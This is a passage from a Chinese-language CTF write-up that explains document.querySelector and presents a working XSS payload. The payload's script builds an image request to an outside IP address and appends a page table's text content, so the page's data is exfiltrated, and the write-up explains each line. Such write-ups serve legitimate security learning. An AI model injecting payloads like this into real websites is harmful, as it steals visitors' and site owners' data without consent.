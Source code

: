 然后就得到flag了

![image-20250424195636798](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504241956844.png)



**方法三：querySelector方法获取内容**

quertSelector是JavaScript中用于从文档中选择一个或多个元素的方法，这个方法允许通过CSS选择器来查找并返回文档中匹配该选择器的第一个元素（如果有多个匹配项，则只返回第一个匹配项）

下面是querySelector方法的解释:

1.基本语法：

```
var element = document.querySelector(selector);
```

selector是一个字符串，表示要查找的元素的css选择器

2.示例

```
// 通过ID选择元素
var elementById = document.querySelector('#myId');
// 通过类名选择元素
var elementsByClass = document.querySelector('.myClass');
// 通过标签名选择元素
var elementsByTagName = document.querySelector('div');
// 使用复杂的选择器，本题就是这种
var complexSelector = document.querySelector('div.container > p:first-child');

```

![image-20250424214045494](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202504242140551.png)

payload：其实\#top > div.layui-container能把所有源码都读了，很方便

```
<script>var img = new Image();img.src = "http://120.46.41.173:9023/"+document.querySelector('#top > div.layui-container > div:nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent;document.body.append(img);</script>
```

解释一下它的每一部分

> 1.var img = new Image();
>
> 这行代码创建了一个新的图像元素对象，并将其分配给变量 img。这个对象用于在页面上加载图像。
>
> 2.img.src = "http://120.46.41.173:9023/" + document.querySelector('#top > div.layui-container > div:nth-child(4) > div > div.layui-table-box > div.layui-table-body.layui-table-main').textContent;这行代码设置了图像的 src 属性，即要加载的图像的 URL。URL 是通过拼接多个部分构建的：
>
> ​	"http://120.46.41.173:9023/" 是图像的基本 URL。
>
> ​	document.querySelector(...) 是一个 DOM 查询操作，用于获取页面上特定元素的内容。在这里，它获取了一个具有复杂选择器的元素，该元素位于页面的某个位置。它的目的是获取这个元素的文本内容。
>
> ​	textContent 是获取 DOM 元素文本内容的属性。
> 综合起来，这行代码的目的是获取特定 DOM 元素的文本内容，然后将其添加到图像 URL 的末尾，以便通过 URL 传递给服务器。
>
> 3.document.body.append(img);最后一行代码将创建的图像元素 img 添加到页面的 <body> 元素中，这样图像将被加载并显示在页面上。
